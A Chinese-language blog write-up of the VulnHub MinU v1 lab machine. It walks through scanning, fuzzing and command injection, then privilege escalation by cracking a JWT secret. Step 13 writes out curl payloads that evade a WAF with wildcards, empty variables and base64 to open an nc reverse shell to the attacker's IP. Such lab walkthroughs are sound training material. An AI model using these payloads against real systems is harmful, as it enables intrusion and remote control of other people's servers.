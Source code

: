 ```yaml
---
layout: post
title: Vulnhub-MinUV1-writeup
description: >
  这是vulnhub上靶机MinUV1的writeup
blog: true
author: DshSec
accent_image:          /assets/img/sidebar-bg.jpg
accent_color:          '#4fb1ba'
category: blog
---
```

#### 靶机相关链接
  + 靶机介绍：["靶机介绍主页"](https://www.vulnhub.com/entry/minu-1,235/)
  + 下载链接1:["靶机下载(Goole云盘)"](https://drive.google.com/open?id=1n_zpZ4M8wpEl5U_o5455MAiuwhCzStlh)
  + 下载链接2：["靶机下载(镜像)"](https://download.vulnhub.com/minu/MinUv1.ova.7z)
  + 下载链接3：["靶机下载(Torrent)"](https://download.vulnhub.com/minu/MinUv1.ova.7z.torrent)
  + 下载靶机后，通过Virtualbox导入虚拟机即可使用


#### 测试过程
1. 下载靶机后，使用Virtualbox导入后开机直接获得IP，省掉了主机存活发现的环节
  ![Full-width image](/assets/img/docs/MlnUV1/1.png)
2. 拿到后直接使用nmap进行扫描看开起来那些服务，扫描仅发现了80端口,(一般先进行常规端口扫描，全端口在有必要的情况下可在对web或者其他常见服务进行测试时进行扫描，可有效节省时间)
    ![Full-width image](/assets/img/docs/MlnUV1/2.png)
3. 访问80端口发现是Apache默认页面，大致查看过后并无其他发现，用dirb或者wfuzz(wfuzz的使用教程有一个老哥介绍很清楚可以去看下一下，['此处为传送门'](https://www.freebuf.com/author/m0nst3r)进行一下目录扫描
    ![Full-width image](/assets/img/docs/MlnUV1/3.png)
    ![Full-width image](/assets/img/docs/MlnUV1/4.png)
4. 两者均发现了test.php,按照惯例进行访问并哪里不会点哪里；点的时候要注意地址栏的变化；惯例进行源码的查看，发现这个链接有存在文件包含漏洞的嫌疑
    ![Full-width image](/assets/img/docs/MlnUV1/5.png)
    ![Full-width image](/assets/img/docs/MlnUV1/6.png)
5. 依旧用wfuzz试一下，通过wfuzz可以省去很多手工上的繁琐，偷偷懒
    ![Full-width image](/assets/img/docs/MlnUV1/7.png)
6. 通过wfuzz的结果可以看到存在大量的字符数为1986的页面，尝试访问一个发现非常正常，于是可以通过--hh将字符数为1986的排除掉，这样结果更加精简了
    ![Full-width image](/assets/img/docs/MlnUV1/8.png)
    ![Full-width image](/assets/img/docs/MlnUV1/9.png)
    ![Full-width image](/assets/img/docs/MlnUV1/10.png)
7. 通过对剩下几个payload进行访问，发现并非文件包含漏洞，而是命令执行漏洞
    ![Full-width image](/assets/img/docs/MlnUV1/11.png)
    ![Full-width image](/assets/img/docs/MlnUV1/12.png)
8. 经过尝试发现很多命令执行不了，可以判断该处漏洞应该存在过滤手段
    ![Full-width image](/assets/img/docs/MlnUV1/13.png)
9. 在测试过程中发现rev命令是可用的，rev命令可以实现字符的反序输出，可以通过rev来读源码    
>
  **NOTE**:rev命令 将文件中的每行内容以字符为单位反序输出，即第一个字符最后输出，最后一个字符最先输出，依次类推
    ![Full-width image](/assets/img/docs/MlnUV1/14.png)

10. 尝试通过rev命令来读取test.php的内容
    ![Full-width image](/assets/img/docs/MlnUV1/15.png)
11. 由于反序输出不便阅读，可以在terminal中通过管道符进行再次反序然后即可得到正序的文件内容
    ![Full-width image](/assets/img/docs/MlnUV1/16.png)
12. 可以看到test.php中执行的命令是shell_exec('cat'.GET['file'])，获取file参数然后cat出来，既然知道文件内容了就可以进行payload的构造，在payload的构造中有很多种方法，但是需要不断的尝试有哪些限制字符。对参数进行fuzz一下看哪些是可用的(此处需要自己构造字典，想好要执行那些命令，然后分别用不同的方式表示出来形成字典再fuzz)
    ![Full-width image](/assets/img/docs/MlnUV1/17.png)
13. 根据fuzz的结果得出部分可用字符，通过这些字符可以组合payload，此处列举三个：(其中20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK为nc -e /bin/sh 192.168.145.1 4444的base64编码)，可自行发散思路测试多种命令，组合出多种payload
```shellcode
curl -s "http://192.168.145.5/test.php?file=%26/bin$u/echo$u%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/usr$u/bin$u/base64$u%20-d|/bin$u/sh$u"
curl -s 'http://192.168.145.5/test.php?file=%26/bin/ech?%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/u?r/b?n/b?se64%20-d|/b?n/sh'
curl -s 'http://192.168.145.5/test.php?file=%26/b?n/nc$u%20-e%20/b?n/sh$u%20192.168.145.1%204444'
```
  此处主要利用到了两个知识点：1是linux下所有皆文件，因此各种可执行程序都是在可找到的文件，而在找文件的过程中是可以利用通配符的，可以利用该特性对过滤进行绕过，另一点就是使用空变量$u，linux中是可以存在空变量的，直接被系统视为空字符串，空变量不会对输出造成影响，可以借此来绕过基于正则表达式的过滤器和模式匹配此处参见['secist'](https://www.freebuf.com/author/secist)大佬['绕过CloudFlare WAF和ModSecurity OWASP CRS3核心规则集的技巧介绍'](https://www.freebuf.com/articles/web/184414.html)的文章

14. 现在可以getshell了，先监听端口4444(（由于我的网络是靶机为仅host模式，而kali为nat模式通过将物理机的4444网卡映射到了kali上，所以此处看到的是来自10.0.2.2的连接，这不是重点）)
    ![Full-width image](/assets/img/docs/MlnUV1/18.png)
15. 此时拿到的只是shell,并非tty:使用SHELL=/bin/bash script -q /dev/null可以将shell提升成tty,找一下有没有可以直接拿来提权的程序，可惜在我的知识中这些都好像没有，泪奔.....
    ![Full-width image](/assets/img/docs/MlnUV1/19.png)
16. 看一下Linux内核版本，看是否有可利用的漏洞，找到可用的然后gcc编译一下
    ![Full-width image](/assets/img/docs/MlnUV1/20.png)    
    ![Full-width image](/assets/img/docs/MlnUV1/21.png)
    ![Full-width image](/assets/img/docs/MlnUV1/22.png)  
17. EXP准备就绪后开始准备上传，先在本机用python搭个简易的web服务器，然后找一个可写文件夹，尝试下载下来
    ![Full-width image](/assets/img/docs/MlnUV1/23.png)
    ![Full-width image](/assets/img/docs/MlnUV1/24.png)
    ![Full-width image](/assets/img/docs/MlnUV1/25.png)    
18. 很尴尬的是发现下载下来大小为0，查看一下磁盘发现磁盘满了。不知道这是作者有意的还是我的环境有问题.....所以通过这种方式提权看来要拉闸了
    ![Full-width image](/assets/img/docs/MlnUV1/26.png)
19. 在系统瞎逛逛，发现了home目录下bob的文件夹有隐藏文件(一般home目录下的要重点关注)，查看一下发现存在一个__pw__的文件，里面写的东西我也看不懂，直觉告诉我这很重要。于是找了国外大佬的文章看解析。发现是['Json web tokens'](http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    ![Full-width image](/assets/img/docs/MlnUV1/27.png)
20. 尝试使用['jwtrack'](https://github.com/brendan-rius/c-jwt-cracker)进行破解,破解成功。得到密钥是mlnV1
    ![Full-width image](/assets/img/docs/MlnUV1/28.png)
21. 尝试登陆，发现登陆root成功，并且在root文件夹下发现flag文件，cat一下
    ![Full-width image](/assets/img/docs/MlnUV1/29.png)
>
**附上两位大佬解析的地址**:
+ https://medium.com/@honze_net/vulnhub-minu-1-write-up-8032fdda5939
+ https://hackso.me/minu-1-walkthrough/
